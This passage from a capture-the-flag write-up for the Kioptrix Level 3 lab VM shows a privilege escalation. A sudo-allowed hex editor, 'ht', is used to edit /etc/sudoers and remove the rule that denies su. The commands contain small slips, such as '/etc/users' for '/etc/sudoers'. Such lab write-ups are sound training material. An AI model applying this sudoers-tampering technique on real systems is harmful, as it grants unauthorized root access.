 ```
Hello new employee,  
It is company policy here to use our newly installed software for editing, creating and viewing files.  
Please use the command 'sudo ht'.  
Failure to do so will result in you immediate termination.  
  
DG  
CEO  
loneferret@Kioptrix3:~$  
```
  
Hmm, what's that `ht` file they want us to run?  

```console
loneferret@Kioptrix3:~$ which ht
/usr/local/bin/ht  
loneferret@Kioptrix3:~$ ls -l /usr/local/bin/ht  
-rwsr-sr-x 1 root root 2072344 2011-04-16 07:26 /usr/local/bin/ht  
```    

Oh, so this file has `setuid` bit enabled, AND is owned by root. After poking with the tool I realized it's a HEX editor. This means we can edit any file we want even it's owned by root!  

What's the easiest file to edit and get root you ask?  
  
It's `/etc/sudoers`.  
  
Be extremely careful while editing the sudoers file, saving it in bad format might break stuff and make you unable to use the su command. How do I know? Because I broke my VM, __twice__..  
  
First, you might need to update the environment variable TERM.  

```console
loneferret@Kioptrix3:~$ sudo ht /etc/users  
Error opening terminal: xterm-256color.  
loneferret@Kioptrix3:~$ export TERM=xterm


loneferret@Kioptrix3:~$ sudo ht /etc/users 
```

Next, change mode to text by pressing F6, you'll notice the following line:  
```console
loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht  
```   

We can simply replace the "!" by a space (0x20), so running /usr/bin/su gives
us root.  

```console
loneferret@Kioptrix3:~$ sudo /usr/bin/su  
[sudo] password for loneferret:   
sudo: /usr/bin/su: command not found  
loneferret@Kioptrix3:~$ which su  
/bin/su  
```
